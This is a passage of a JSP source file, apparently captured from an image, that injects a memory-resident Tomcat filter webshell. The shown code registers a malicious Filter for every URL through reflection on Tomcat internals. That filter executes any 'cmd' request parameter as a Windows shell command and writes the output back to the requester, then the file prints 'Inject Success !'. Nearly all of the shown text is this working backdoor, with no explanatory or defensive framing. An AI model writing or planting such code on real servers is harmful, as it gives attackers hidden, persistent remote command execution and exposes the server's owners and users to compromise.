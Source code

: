 ```jsp
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>

<html>
<head>
    <title>Title</title>
</head>
<body>

</body>
</html>
```